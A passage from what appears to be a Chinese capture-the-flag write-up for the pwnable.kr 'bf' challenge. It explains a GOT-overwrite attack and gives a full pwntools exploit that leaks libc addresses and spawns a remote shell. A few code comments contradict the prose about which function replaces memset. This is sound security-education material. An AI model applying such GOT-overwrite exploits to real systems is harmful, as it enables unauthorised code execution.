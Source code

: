这里既能控制指针，又能读写指针指向地址的值，并且指针 `p` 初始值为 `0x0804A0A0 (tape)`，而往低地址一点就是 `.got.plt`。因为题目提供了 libc 文件，所以这里可以通过泄漏 `.got.plt` 中的 `fgets()` 函数地址来计算目标环境的 `system()` 函数地址，然后重写 `.got.plt` 结构来使得 `fgets()` 的 GOT 变为 `system()`，`memset()` 的 GOT 变为 `gets()`，然后通过修改 `putchar()` 的 GOT 为主函数 `main()`，从而执行到 `0x08048700 - 0x08048734` 处代码的时候实际上执行的是 `system(gets())`：
    
    .text:08048700                 mov     dword ptr [esp+8], 400h ; n
    .text:08048708                 mov     dword ptr [esp+4], 0 ; c
    .text:08048710                 lea     eax, [esp+2Ch]
    .text:08048714                 mov     [esp], eax      ; s
    .text:08048717                 call    _memset         ; rewrite memset() to fgets()
    .text:0804871C                 mov     eax, ds:stdin@@GLIBC_2_0
    .text:08048721                 mov     [esp+8], eax    ; stream
    .text:08048725                 mov     dword ptr [esp+4], 400h ; n
    .text:0804872D                 lea     eax, [esp+2Ch]
    .text:08048731                 mov     [esp], eax      ; s
    .text:08048734                 call    _fgets          ; rewrite fgets() to system()
    .text:08048739                 mov     dword ptr [esp+28h], 0
    .text:08048741                 jmp     short loc_8048760
	
最终的 exp 如下：

```python
#!/usr/bin/env python
# coding: utf-8

from pwn import *

# Remote EXP
libc = ELF('./bf_libc.so')
p = remote('pwnable.kr', 9001)

# Local EXP
# libc = ELF('./libc.so.6')
# p = process('./bf')


p.recvline_startswith('type')

# Move the pointer to .got.plt fgets()
payload = '<' * (0x0804A0A0 - 0x0804A010)
# Print .got.plt fgets() address in memory each bytes
payload += '.>' * 4
# reMove the pointer to .got.plt fgets()
payload += '<' * 4
# Write .got.plt fgets() to system()
payload += ',>' * 4
# Move the pointer to .got.plt memset()
payload += '>' * (0x0804A02C - 0x0804A014)
# Write .got.plt memset() to fgets()
payload += ',>' * 4
# Writr .got.plt putchar() to main() 0x08048671
payload += ',>' * 4
# Call putchar(), actually main() called
payload += '.'

p.sendline(payload)

fgets_addr = p.recvn(4)[::-1].encode('hex')
system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(0x08048671))
p.sendline('/bin/sh')
```
